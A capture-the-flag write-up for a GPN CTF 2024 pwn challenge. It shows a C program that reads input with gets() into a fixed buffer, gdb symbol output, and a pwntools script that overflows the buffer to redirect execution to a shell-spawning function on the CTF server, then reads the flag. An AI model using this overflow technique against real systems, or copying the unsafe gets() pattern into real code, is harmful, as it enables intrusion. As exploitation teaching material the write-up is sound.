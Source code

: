 # Never gonna give you UB

## Description
```
Can you get this program to do what you want?
```

## Provided Files
```
- Dockerfile
- run.sh
- song_rather.c
- song_rather
```

## Writeup

Starting off, we should inspect the given `song_rather.c`. <br/>
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void scratched_record() {
	printf("Oh no, your record seems scratched :(\n");
	printf("Here's a shell, maybe you can fix it:\n");
	execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

int main() {
	printf("Song rater v0.1\n-------------------\n\n");
	char buf[0xff];
	printf("Please enter your song:\n");
	gets(buf);
	printf("\"%s\" is an excellent choice!\n", buf);
	return 0;
}
```
The important part to notice in the source code is the vulnerable function `gets(buf)`. <br/>
Because `gets(buf)` doesn't perform `bounds checking` we can simply overflow the buffer and overwrite the `return address` with the address of `scratched_record()` function which spawns a shell. <br/>
Getting the right memory-address of `scratched_record()` functions using `gdb`. <br/>
```sh
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401070  puts@plt
0x0000000000401080  printf@plt
0x0000000000401090  execve@plt
0x00000000004010a0  gets@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  scratched_record        # This is the important one
0x00000000004011d8  main
0x000000000040123c  _fini
```

To get the correct `offset` for our exploit we can convert the buffer size `[0xff]` from hex to decimal which would be `255` and add the `8` bytes of `EBP` which results in our `offset` being at `263` (+1). <br/>
Knowng all things we can put together an exploit using `pwntools` in python. <br/>
```py
from pwn import *

# Memory-Address of 'scratched_record' function
scratched_record_addr = 0x0000000000401196

# Offset to the return address
offset = 264 

payload = b"A" * offset
payload += p64(scratched_record_addr)

p = remote("cool-for-the-summer--demi-lovato-8984.ctf.kitctf.de", "443", ssl=True)

p.sendline(payload)

# Set interactive shell
p.interactive()
```

Running the exploit returns a shell and the flag which concludes this writeup. <br/>
```sh
$ python3 solve.py 
[!] Could not populate PLT: No module named 'distutils'
[*] '/home/aryt3/Hacking/CTFs/GPN_ctf_2024/Never_gonna_give_you_UB/never-gonna-give-you-ub/song_rater'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to cool-for-the-summer--demi-lovato-8984.ctf.kitctf.de on port 443: Done
[*] Switching to interactive mode
Song rater v0.1
-------------------

Please enter your song:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x11@" is an excellent choice!
Oh no, your record seems scratched :(
Here's a shell, maybe you can fix it:
$ ls -la
total 24
dr-xr-xr-x   1 root root    28 May 31 14:04 .
dr-xr-xr-x   1 root root    28 May 31 14:04 ..
lrwxrwxrwx   1 root root     7 Apr 22 13:08 bin -> usr/bin
drwxr-xr-x   2 root root     6 Apr 22 13:08 boot
drwxr-xr-x   5 root root   360 May 31 14:04 dev
drwxr-xr-x   1 root root    18 May 31 14:04 etc
-rw-r--r--   1 root root    59 May 30 10:08 flag
-------------

$ cat flag
GPNCTF{G00d_n3w5!_1t_l00ks_l1ke_y0u_r3p41r3d_y0ur_disk...}
```

